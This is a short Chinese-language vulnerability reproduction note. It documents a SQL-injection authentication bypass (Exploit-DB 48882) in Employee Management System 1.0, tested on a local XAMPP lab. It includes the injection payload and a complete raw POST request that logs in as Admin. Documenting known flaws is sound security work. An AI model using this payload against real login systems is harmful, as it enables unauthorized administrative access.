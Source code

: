 # 员工管理系统 Employee Management System 1.0 身份验证绕过

## 漏洞描述

漏洞发现时间：2020-10-16

软件下载地址：https://www.sourcecodester.com/sites/default/files/download/razormist/employee-management-system.zip

验证环境：Windows 10 + xampp v3.2.4

参考链接：

- https://www.exploit-db.com/exploits/48882

## 漏洞复现

打开网址：

```
http://localhost:8081/Employee%20Management%20System/alogin.html
```

通过payload绕过验证：

```
anki' or 1=1#
```

发送请求：

```
POST /Employee%20Management%20System/process/aprocess.php HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/Employee%20Management%20System/alogin.html
Cookie: PHPSESSID=infdfigld4et4jndfgbn33kcsv
Upgrade-Insecure-Requests: 1

mailuid=anki%27+or+1%3D1%23&pwd=anki%27+or+1%3D1%23&login-submit=Login
```

将以Admin身份登录应用